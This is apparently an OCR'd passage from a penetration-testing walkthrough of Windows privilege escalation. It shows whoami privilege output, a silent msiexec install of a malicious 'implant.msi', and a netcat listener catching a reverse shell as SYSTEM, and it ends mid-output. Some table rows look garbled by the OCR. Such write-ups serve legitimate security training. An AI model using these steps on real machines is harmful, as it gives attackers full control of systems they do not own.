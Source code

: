 ```powershell
Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled        Change the time zone                 Disabled
```

Install the MSI package quietly:

```powershell
msiexec /quiet /qn /i c:\Tools\implant.msi
```

After executing the malicious MSI, we receive a reverse shell as `NT AUTHORITY SYSTEM`:

```powershell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.130] from (UNKNOWN) [192.168.119.129] 58480
Microsoft Windows [Version 10.0.22000.318]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\SysWOW64>whoami /all
whoami /all

USER INFORMATION
----------------

```